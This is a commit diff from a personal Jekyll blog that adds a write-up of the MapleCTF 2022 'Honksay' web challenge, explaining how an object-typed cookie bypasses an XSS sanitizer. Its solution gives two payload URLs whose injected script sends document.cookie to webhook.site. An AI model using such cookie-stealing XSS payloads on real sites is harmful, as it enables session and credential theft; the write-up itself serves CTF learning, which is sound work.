

Before and after one commit to mononices/mononices.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 874 px of the page, without its empty margins (117-1164 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
New post

````diff
--- /dev/null
+++ b/_posts/2022-08-31-honksay.md
@@ -0,0 +1,99 @@
+---
+title: Honksay Writeup - MapleCTF 2022
+layout: post
+tags: web warmup
+---
+
+*Haha goose say funny thing*
+
+[Download challenge](https://ctf2022.maplebacon.org/files/0565426a10b6e02a4fd2dcc6ca720ab0/honksay.tar.gz)
+
+
+## Investigation
+
+Honksay challenge presents itself with this glorious page
+
+![honk](/assets/honksay.png)
+<br>
+<br>
+
+Looking onto its code we see that website's backend has a goose script, where a puppeteer instance is created. This instance visits every page you specify in feedback field and sets flag cookie to environment variable. The only obstacle is that cookie is only visible for localhost.
+
+```js
+const puppeteer = require('puppeteer');
+const FLAG = process.env.FLAG || "maple{fake}";
+
+...
+
+page = await browser.newPage();
+await page.setCookie({
+      name: 'flag',
+      value: FLAG,
+      domain: 'localhost',
+      samesite: 'none'
+});
+await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
+```
+
+Digging in the other script reveals that website has `/changehonk` route that can set our message on the frontend.
+
+```js
+app.get('/changehonk', (req, res) => {
+    res.cookie('honk', req.query.newhonk, {
+        httpOnly: true
+    });
+    res.cookie('honkcount', 0, {
+        httpOnly: true
+    });
+    res.redirect('/');
+});
+```
+
+Well that is nothing like stored XSS, except there is one problem : upon visiting baseurl, backend performs a little check on our honk cookie with 'xss' plugin
+
+```js
+const clean = require('xss');
+
+...
+
+app.get('/', (req, res) => {
+    if (req.cookies.honk){
+        //construct object
+        let finalhonk = {};
+        if (typeof(req.cookies.honk) === 'object'){
+            finalhonk = req.cookies.honk
+        } else {
+            finalhonk = {
+                message: clean(req.cookies.honk),
+                amountoftimeshonked: req.cookies.honkcount.toString()
+            };
+        }
+        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
+    } else {
+        const initialhonk = 'HONK';
+        res.cookie('honk', initialhonk, {
+            httpOnly: true
+        });
+        res.cookie('honkcount', 0, {
+            httpOnly: true
+        });
+        res.redirect('/');
+    }
+});
+```
+
+Turns out we can get around this check, by setting our cookie to an instance of an object, and then finalhonk will get assigned to user controlled honk cookie.
+
+## Solution
+
+To set cookie type to an object via a GET request we can construct this payload:
+
+``localhost:9988/changehonk?newhonk[message]=<script>fetch(`https://webhook.site/?${document.cookie}`);</script>``
+
+Funny thing, I used another way to make our honk cookie an object, I discovered this by messing with initialhonk variable in my Docker instance:
+
+``http://localhost:9988/changehonk?newhonk=j:{"message":"<script>fetch(`https://webhook.site/?${document.cookie}`);</script>","amountoftimeshonked":1337}``
+
+Thus we get ourselves a neat flag 🚩
+
+**maple{g00segoHONK}**
--- a/index.html
+++ b/index.html
@@ -18,5 +18,6 @@ layout: default
 	  <p>{{ post.excerpt  }}</p>
           <a href="{{ post.url | prepend: site.baseurl | replace: '//', '/' }}" class="read-more">Read More</a>
       </li>
+      <br><br>
     {% endfor %}
 </ul>
````
Also changed, not shown: assets/honksay.png (added), 6 other files.
